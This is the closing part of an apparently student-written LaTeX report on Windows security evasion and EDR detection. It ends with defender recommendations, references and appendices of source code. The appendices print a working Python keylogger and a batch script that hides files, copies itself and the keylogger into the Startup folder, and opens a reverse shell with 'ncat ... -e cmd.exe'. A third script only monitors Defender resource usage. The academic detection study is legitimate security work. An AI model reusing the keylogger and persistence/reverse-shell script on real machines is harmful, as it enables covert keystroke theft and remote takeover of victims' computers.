		\item \textbf{Potential Research Extensions:}
		\begin{itemize}
			\item Test a broader range of more sophisticated evasion techniques (e.g., advanced reflective DLL injection, process doppelganging, kernel-level rootkits).
			\item Evaluate a wider array of commercial EDR solutions and compare their detection and response capabilities in detail.
			\item Investigate the effectiveness of machine learning-based detection components within security tools against these evasion techniques.
			\item Develop and test custom detection rules for Sysmon or other log analysis platforms based on the observed attacker TTPs.
			\item Explore the impact of different Windows Defender configurations (e.g., Attack Surface Reduction rules, different levels of cloud protection) on detection rates.
		\end{itemize}
		\item \textbf{Recommendations for Defenders:}
		\begin{itemize}
			\item \textbf{Enable Enhanced Logging:} Mandate PowerShell Script Block Logging, Module Logging, and command-line process auditing. Deploy Sysmon with a robust configuration.
			\item \textbf{Proactive Threat Hunting:} Regularly search logs for indicators of compromise and suspicious activities that may not trigger automated alerts.
			\item \textbf{Principle of Least Privilege:} Enforce strong access controls and limit user/application privileges to minimize attack impact.
			\item \textbf{Application Control:} Implement application whitelisting solutions like Windows Defender Application Control where feasible.
			\item \textbf{User Education:} Train users to recognize phishing attempts and suspicious activities.
			\item \textbf{Consider Advanced EDR:} For organizations requiring higher security, evaluate and deploy advanced EDR solutions that offer better behavioral detection and threat hunting capabilities.
			\item \textbf{Regularly Update and Patch:} Keep operating systems and all software, including security tools, up to date.
			\item \textbf{Monitor LOLBAS Usage:} Pay close attention to the usage of dual-use tools (LOLBAS) and develop baselines for normal activity.
		\end{itemize}
	\end{itemize}
	\newpage
	
	% --- REFERENCES ---
	\section*{References} % Using section* to avoid numbering for References
	\addcontentsline{toc}{section}{References} % Add References to ToC manually
	\begin{thebibliography}{99} % Using a simple bibliography environment
		% TODO: Add all references here in a consistent style (e.g., IEEE, APA).
		% Examples:
		% \bibitem{Tanenbaum2015} Tanenbaum, A. S., & Bos, H. (2015). *Modern Operating Systems* (4th ed.). Pearson Education. [Referenced in OSSEC slides [cite: 2]]
		% \bibitem{MitreAttack} MITRE. (2023). *MITRE ATT\&CK Framework*. Retrieved from \url{https://attack.mitre.org/} [Referenced in Project Proposal [cite: 251]]
		% \bibitem{LOLBAS} LOLBAS Project. *Living Off The Land Binaries, Scripts and Libraries*. Retrieved from \url{https://lolbas-project.github.io/} [Referenced in Project Proposal [cite: 251]]
		% \bibitem{Sysinternals} Microsoft. *Sysinternals Suite*. Retrieved from \url{https://docs.microsoft.com/en-us/sysinternals/} [Referenced in Project Proposal [cite: 251]]
		% \bibitem{Pynput} Moses, M. et al. *pynput*. Retrieved from \url{https://pypi.org/project/pynput/} (Used for keylog.py [cite: 3])
		% \bibitem{Nmap} Nmap Security Scanner. Retrieved from \url{https://nmap.org/} (Ncat is part of Nmap)
		% \bibitem{PSLogging} Microsoft. *About Logging - PowerShell*. Retrieved from \url{https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging}
		% \bibitem{SysmonDoc} Microsoft. *Sysmon - Sysinternals*. Retrieved from \url{https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon}
		
		\bibitem{OSSEC7Security} da Silva, B. *Operating Systems and Security: Security* [Lecture Slides, MUB ETRO ELECTRONICS & INFORMATICS]. [cite: 1]
		\bibitem{ProjectExpect} da Silva, B. *Operating Systems: Projects Proposals: What to Deliver* [Project Guidelines, MUB ETRO ELECTRONICS & INFORMATICS]. [cite: 230]
		\bibitem{ProjectProp} [Student Names]. *Advanced Security Evasion in Windows with Hidden Commands* [Project Proposal]. [cite: 246]
		\bibitem{cmdcommands} *cmd\_commands.txt* [Provided script]. [cite: 4]
		\bibitem{keylogpy} *keylog.py* [Provided script using pynput]. [cite: 3]
		\bibitem{activityloggerpy} *activity_logger.py* [Provided script using psutil, matplotlib]. [cite: 4] % Note: The script uses MsMpEng.exe, but user text says SecurityHealthService.exe
		
		% References from Project Proposal PDF [cite: 251]
		\bibitem{lolbasproj} LOLBAS Project. \textit{Living Off The Land Binaries and Scripts}. Retrieved from \url{https://lolbas-project.github.io/}
		\bibitem{msftpowershell} Microsoft. \textit{PowerShell Documentation}. Retrieved from \url{https://learn.microsoft.com/en-us/powershell/}
		\bibitem{malwarebyteskeylog} Malwarebytes. \textit{What is a Keylogger?}. Retrieved from \url{https://www.malwarebytes.com/keyloggers}
		\bibitem{msftsecurityblog} Microsoft. \textit{Microsoft Security Blog}. Retrieved from \url{https://www.microsoft.com/security/blog}
		\bibitem{offsecmetasploitpersist} Offensive Security. \textit{Persistent Backdoors}. Metasploit Unleashed. Retrieved from \url{https://www.offensive-security.com/metasploit-unleashed/persistent-backdoors}
		\bibitem{rapid7metasploit} Rapid7. \textit{Metasploit Documentation}. Retrieved from \url{https://docs.rapid7.com/metasploit}
		\bibitem{mandiantprochollow} Mandiant. \textit{Process Hollowing}. Retrieved from \url{https://www.mandiant.com/resources/process-hollowing} % Note: Check current URL validity
		\bibitem{redteamjournaldll} Red Team Journal. \textit{DLL Injection}. Retrieved from \url{https://www.redteamjournal.com/dll-injection} % Note: Check current URL validity
		\bibitem{mitreT1053} MITRE ATT\&CK. \textit{Technique T1053: Scheduled Task/Job}. Retrieved from \url{https://attack.mitre.org/techniques/T1053/}
		\bibitem{msftsysinternals} Microsoft. \textit{Sysinternals Utilities Index}. Retrieved from \url{https://docs.microsoft.com/en-us/sysinternals/}
		\bibitem{msftdefenderendpoint} Microsoft. \textit{Microsoft Defender for Endpoint}. Retrieved from \url{https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/}
		\bibitem{elasticsecurity} Elastic. \textit{Elastic Security}. Retrieved from \url{https://www.elastic.co/security}
		
		% References for figures (assuming they are from the project itself or provided data)
		\bibitem{logcompfig} *log_completeness_stacked.pdf* [Provided figure]. [cite: 254]
		\bibitem{visheatfig} *visibility_heatmap.pdf* [Provided figure]. [cite: 255]
		\bibitem{detratefig} *detection_rate_bars.pdf* [Provided figure]. [cite: 256]
		\bibitem{defresfig} *defender_resource_usage.pdf* [Provided figure]. [cite: 257]
		
	\end{thebibliography}
	\newpage
	
	% --- APPENDICES (OPTIONAL) ---
	\appendix
	\section{Source Code for Custom Scripts}
	\subsection{keylog.py}
	\begin{lstlisting}[language=Python, caption=keylog.py - Python Keylogger, basicnumbers=left, numberstyle=\tiny\color{gray}, stringstyle=\color{purple}, commentstyle=\color{olive}, keywordstyle=\color{blue}, breaklines=true, breakatwhitespace=true, tabsize=4, showstringspaces=false]
		from pynput import keyboard
		
		def on_press(key):
		text = ""
		if key == keyboard.Key.enter:
		text += "\n"
		elif key == keyboard.Key.tab:
		text += "\t"
		elif key == keyboard.Key.space:
		text += " "
		elif key == keyboard.Key.shift:
		pass
		elif key == keyboard.Key.backspace and len(text) == 0:
		pass
		elif key == keyboard.Key.backspace and len(text) > 0:
		text = text[:-1]
		elif key == keyboard.Key.ctrl_l or key == keyboard.Key.ctrl_r:
		pass
		elif key == keyboard.Key.esc:
		return False
		else:
		text = text + str(key).strip("'")
		
		try:
		with open("key.txt", "a+") as file: # Use try-except for file operations
		file.write(text)
		# print(f"Logged: {text}") # Avoid printing to console in a real stealthy keylogger
		except Exception as e:
		# print(f"Error writing to file: {e}") # Error handling
		pass
		
		
		with keyboard.Listener(on_press=on_press) as listener:
		try:
		listener.join()
		except Exception as e:
		# print(f"Error with listener: {e}")
		pass
	\end{lstlisting}
	Source: Provided `keylog.py` file[cite: 3].
	
	\subsection{cmd\_commands.txt}
	\begin{lstlisting}[language=Batch, caption=cmd\_commands.txt - Batch Script for Automation, basicnumbers=left, numberstyle=\tiny\color{gray}, stringstyle=\color{red}, commentstyle=\color{green!70!black}, keywordstyle=\color{blue}, breaklines=true, breakatwhitespace=true, tabsize=4, showstringspaces=false]
		:: from receiver side please write nc -lvnp port number 
		
		@echo off
		:: Install WinGet PowerShell module from PSGallery
		if exist "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\%~nx0" (
		start /min cmd /c "cd "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py" & attrib +h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py""
		) else (
		start /min cmd /c "curl -o AppInstaller.msixbundle https://aka.ms/getwinget & winget --version & winget install Insecure.Nmap --accept-package-agreements --accept-source-agreements --silent & attrib +h "AppInstaller.msixbundle""
		
		start /min cmd /c "xcopy /H "%~dpnx0" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & attrib +h "%~dpnx0" & xcopy /H "keylog.py" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & attrib +h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py" & attrib -h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\%~nx0""
		
		start /min cmd /c "cd "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py""
		)
		
		start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"
	\end{lstlisting}
	Source: Provided `cmd\_commands.txt` file[cite: 4].
	
	\subsection{activity_logger.py}
	\begin{lstlisting}[language=Python, caption=activity_logger.py - Windows Defender Resource Monitor, basicnumbers=left, numberstyle=\tiny\color{gray}, stringstyle=\color{purple}, commentstyle=\color{olive}, keywordstyle=\color{blue}, breaklines=true, breakatwhitespace=true, tabsize=4, showstringspaces=false]
		import psutil
		import time
		import matplotlib.pyplot as plt
		import os # For ensuring directory exists
		
		# Process name for Windows Defender Antimalware Service Executable
		defender_process_name = "MsMpEng.exe" # More common than SecurityHealthService.exe for core engine
		
		# Data storage
		timestamps = []
		cpu_usages = []
		memory_usages_mb = [] # Store memory in MB for clarity
		
		# Duration to monitor (in seconds)
		monitor_duration = 60 
		interval = 2  # seconds between samples
		
		start_time = time.time()
		
		print(f"Monitoring Windows Defender ({defender_process_name})...")
		
		# Create a directory for plots if it doesn't exist
		output_dir = "performance_plots"
		if not os.path.exists(output_dir):
		os.makedirs(output_dir)
		plot_filename = os.path.join(output_dir, "defender_resource_usage_live.png")
		
		
		try:
		while time.time() - start_time < monitor_duration:
		found_proc = None
		for proc in psutil.process_iter(['pid', 'name', 'cpu_percent', 'memory_info']):
		if proc.info['name'] == defender_process_name:
		found_proc = proc
		break
		
		if found_proc:
		# Get CPU usage over the interval (non-blocking after first call)
		cpu = found_proc.cpu_percent(interval=None) # Use None after first call
		mem_info = found_proc.memory_info()
		mem_rss_mb = mem_info.rss / (1024 * 1024) # Resident Set Size in MB
		
		timestamp_val = time.time() # Use epoch for plotting, format later for labels
		
		timestamps.append(timestamp_val)
		cpu_usages.append(cpu)
		memory_usages_mb.append(mem_rss_mb)
		
		current_time_str = time.strftime('%H:%M:%S', time.localtime(timestamp_val))
		print(f"[{current_time_str}] CPU: {cpu:.2f}%, Memory: {mem_rss_mb:.2f} MB")
		else:
		current_time_str = time.strftime('%H:%M:%S')
		print(f"[{current_time_str}] Defender process ({defender_process_name}) not found.")
		# Add null data points to keep plot consistent if process disappears
		timestamps.append(time.time())
		cpu_usages.append(0) # Or None, handle in plotting
		memory_usages_mb.append(0) # Or None
		
		time.sleep(interval)
		
		except KeyboardInterrupt:
		print("Monitoring stopped by user.")
		except Exception as e:
		print(f"An error occurred: {e}")
		finally:
		# Plotting
		if timestamps: # Only plot if data was collected
		plt.figure(figsize=(12, 8)) # Increased figure size
		
		# Convert epoch timestamps to readable strings for x-axis labels
		time_labels = [time.strftime('%H:%M:%S', time.localtime(ts)) for ts in timestamps]
		
		# CPU Usage Plot
		plt.subplot(2, 1, 1)
		plt.plot(time_labels, cpu_usages, label=f'{defender_process_name} CPU Usage (%)', color='red', marker='o', linestyle='-')
		plt.title(f'{defender_process_name} Resource Usage Over Time')
		plt.ylabel('CPU (%)')
		plt.xticks(rotation=45, ha="right")
		plt.legend()
		plt.grid(True, linestyle='--', alpha=0.7)
		plt.tight_layout(rect=[0, 0.03, 1, 0.95]) # Adjust layout
		
		# Memory Usage Plot
		plt.subplot(2, 1, 2)
		plt.plot(time_labels, memory_usages_mb, label=f'{defender_process_name} Memory Usage (MB)', color='blue', marker='x', linestyle='-')
		plt.xlabel('Time')
		plt.ylabel('Memory (MB)')
		plt.xticks(rotation=45, ha="right")
		plt.legend()
		plt.grid(True, linestyle='--', alpha=0.7)
		plt.tight_layout(rect=[0, 0, 1, 0.97]) # Adjust layout
		
		plt.savefig(plot_filename)
		print(f"Plot saved to {plot_filename}")
		# plt.show() # Comment out if running in a non-GUI environment or for automated runs
		else:
		print("No data collected to plot.")
		
	\end{lstlisting}
	Source: Provided `activity_logger.py` file[cite: 4], with minor modifications for robustness (e.g., checking for `MsMpEng.exe`, memory in MB, error handling, saving plot).
	
	% \section{Detailed Log Excerpts}
	%   % TODO: Add any particularly relevant or lengthy log excerpts here that don't fit well in the main body.
	% \section{Complex Configuration Files}
	%   % TODO: If Sysmon was used with a complex XML config, it could be included here.
	
\end{document}